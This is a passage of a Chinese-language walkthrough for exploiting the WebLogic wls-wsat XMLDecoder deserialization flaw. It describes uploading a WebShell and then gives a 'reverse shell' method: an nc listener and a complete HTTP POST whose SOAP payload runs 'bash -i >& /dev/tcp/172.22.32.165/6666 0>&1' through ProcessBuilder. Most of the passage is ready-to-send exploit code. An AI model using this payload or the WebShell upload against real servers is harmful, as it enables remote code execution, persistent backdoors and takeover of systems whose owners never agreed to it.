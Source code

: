 ```
  </soapenv:Header>   
  <soapenv:Body/>
</soapenv:Envelope>
```  
  
发送HTTP请求报文  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE3Hsj2t76Fibm7ZtUKUTyzfP4Hl8jUg1qrzWCgyiccU37478BruoSYPqw/640?wx_fmt=png&from=appmsg "")  
  
第一个 string 标签中的内容是 WebShell 的路径，第二个 string 标签的内容是 XML 文档的内容  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE1Xu2SBFqYEqoN4pWQFYFvJGpPOgMTg8yxibFHiaBp3uxPZMcEqeKocQQ/640?wx_fmt=png&from=appmsg "")  
  
访问上传的脚本，访问路径是 项目名+文件名  
  
  
利用方式2：反弹Shell  
  
先利用nc监听端口  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEAC2pv3IbTPUhcYzXZsLlmpgYRWuEk3aU6dqC7X4ibL932JlgT2tlqaw/640?wx_fmt=png&from=appmsg "")  
  
HTTP请求报文  
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.111.128:7001
Accept-Encoding: gzip, deflate
Accept: */*Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/172.22.32.165/6666 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>

```  
  